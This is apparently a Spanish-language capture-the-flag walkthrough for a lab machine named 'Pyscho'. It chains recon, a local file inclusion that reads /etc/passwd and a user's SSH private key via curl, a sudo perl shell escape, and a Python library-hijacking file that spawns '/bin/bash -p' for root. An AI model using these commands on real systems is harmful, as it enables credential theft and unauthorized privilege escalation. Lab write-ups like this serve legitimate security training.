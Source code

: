 <h1><b>Pyscho</b></h1>
<hr>

![Captura](https://github.com/user-attachments/assets/4290d8de-0c8d-42b3-9b46-cae794e60379)

<h2>Reconocimiento</h2>
<hr>
Realizamos un escaneo con nmap<br>

![nmap](https://github.com/user-attachments/assets/3d6ed8c0-60c4-47d1-876d-efe438932484)

Despues se suele realizar otro escaneo para ver la version y mas informacion que podamos sacar con los script pero para esta maquina no es necesario. Viendo el puerto 80 y 22 abierto procedemos a ingresar a la pagina web <br>

![pagina](https://github.com/user-attachments/assets/71ee3486-a379-4012-a71f-914940acd462)

Viendo la pagina ninguno de los botones funciona, y al final de esta pordemos observar:<br>

![image](https://github.com/user-attachments/assets/1d22b092-2a49-4f5a-b251-980d29c98a27)

Podemos observar que hay un ERROR al final de la pagina, esto podia indicar que algo se esta cargando mal, pero es toda la informacion que nos dan, para entender mejor como se este originando posiblemente esta falla necesitaremos encontrar la tecnologia en la que esta funcionando la pagina web:<br>

![image](https://github.com/user-attachments/assets/c5a59054-3ca3-4709-9e5c-9977be824c16)

![image](https://github.com/user-attachments/assets/bc2f061c-4341-4f48-a271-fff0b18eecd7)

whatweb no nos da mucha informacion pero con gobuster vemos index.php.

Entonces,que tenemos hasta el momento?
<ul>
  <li>La pagina esta cargando mal algo</li>
  <li>Esta usando php</li>
</ul>

Con esto podemos llegar a la conclusion que la pagina esta usando un include() en php en cual podemos derivarlo a un <a href="https://hacktricks.boitatech.com.br/pentesting-web/file-inclusion#file-inclusion" >Local File Inclusion </a>

No conocemos el parametro dentro de index.php, por lo tanto podemos proceder a fuzzear con la herramienta <a href="https://github.com/xmendez/wfuzz">wfuzz</a><br>

![image](https://github.com/user-attachments/assets/3cf9e007-1f79-43d1-b579-1cbcbe41ed8c)

Como podemos ver <b>secret</b> es el parametro que esta haciendo el include, primero veremos que usuarios hay en el sistema en /etc/cat

```bash
curl http://ip de la maquina/index.php?secret=/etc/passwd
```
![image](https://github.com/user-attachments/assets/f3820ae8-8ccb-46ee-aba3-6617ffb65217)
<br>
<h2>Foothold</h2>
<hr>

Podemos ver unas cuantas accounts, recordemos que la maquina cuenta con un servicio ssh, por lo tanto podemos realizar fuerza bruta a estas cuentas con hydra o buscar por las llaves. <br>

```bash
/home/luisillo/.ssh/id_rsa
/home/vaxei/.ssh/id_rsa
```
<br>
Probamos con las 2 y encotramos la llave para vaxei<br>

```bash
curl http://ip de la maquina/index.php?secret=/home/vaxei/.ssh/id_rsa
```
<br>

![image](https://github.com/user-attachments/assets/18b82ab6-82a0-4771-9ffb-0d3a714c0ae1)
<br>

Ahora entonces teniendo el ssh podriamos logearnos al menos que nos pidan una frase para ingresar.

>[!] Tip
>
>El archivo id_rsa debe tener permisos 600.
>
>Algunos id_rsa estan cifrados con un passphrase, que en ciertos casos necesitaras para que tu key sea aceptada<br>


![image](https://github.com/user-attachments/assets/919a1435-03f1-475a-a017-f15b279e44d6)

<br>
<h2>Lateral Movement</h2>
<hr>

De las primeras cosas que se suelen hacer en una maquina suele ser

```bash
sudo -l
id
Revisar /var/www/html
ps aux
etc
```

Con sudo -l nos saldra todos los permisos que podemos ejecutar como sudo si es que existe alguno, encontramos:
<br>

![image](https://github.com/user-attachments/assets/68746a92-227e-4048-b633-7394437417ff)

<br>

Ya que podemos ejecutar perl como luisillo, y al ser perl un lenguaje de programacion el proceso de escalado es sencillo con <a href="https://gtfobins.github.io/#">GTFOBins</a>


```bash
sudo -u luisillo perl -e 'exec "/bin/sh";'
```
<br>

![image](https://github.com/user-attachments/assets/cf2a6c26-88a3-4e52-b6f7-0c6ccd0094d2)

<br>
<h2>Escalada de Privilegios</h2>
<hr>

Igual que el anterior probramos sudo -l <br>

![image](https://github.com/user-attachments/assets/6f5712f2-6a00-45c4-8b06-edc0cb77f940)

<br>

Al parecer sudoers nos permite ejecutar el script mas no modificarlo.

```python
import subprocess
import os
import sys
import time

# F
def dummy_function(data):
    result = ""
    for char in data:
        result += char.upper() if char.islower() else char.lower()
    return result

# Código para ejecutar el script
os.system("echo Ojo Aqui")

# Simulación de procesamiento de datos
def data_processing():
    data = "This is some dummy data that needs to be processed."
    processed_data = dummy_function(data)
    print(f"Processed data: {processed_data}")

# Simulación de un cálculo inútil
def perform_useless_calculation():
    result = 0
    for i in range(1000000):
        result += i
    print(f"Useless calculation result: {result}")

def run_command():
    subprocess.run(['echo Hello!'], check=True)

def main():
    # Llamadas a funciones que no afectan el resultado final
    data_processing()
    perform_useless_calculation()
    
    # Comando real que se ejecuta
    run_command()

if __name__ == "__main__":
    main()
```

Viendo el codigo vemos que las librerias se estan insertando de forma insegura, es ahi donde nosotros haremos un <a href="https://deephacking.tech/path-hijacking-y-library-hijacking/">Library Hijacking</a>.<br>

Crearemos un archivo llamado subprocess.py de esta forma:

```python
import os
os.system("/bin/bash -p")
```
<br>
Ejecutamos de esta manera:
<br>

![image](https://github.com/user-attachments/assets/0623128d-d221-4f67-a670-a838b457fcb2)

<br>

y de esta manera finalizamos la maquina.

HackTheBox: billyelcalvo

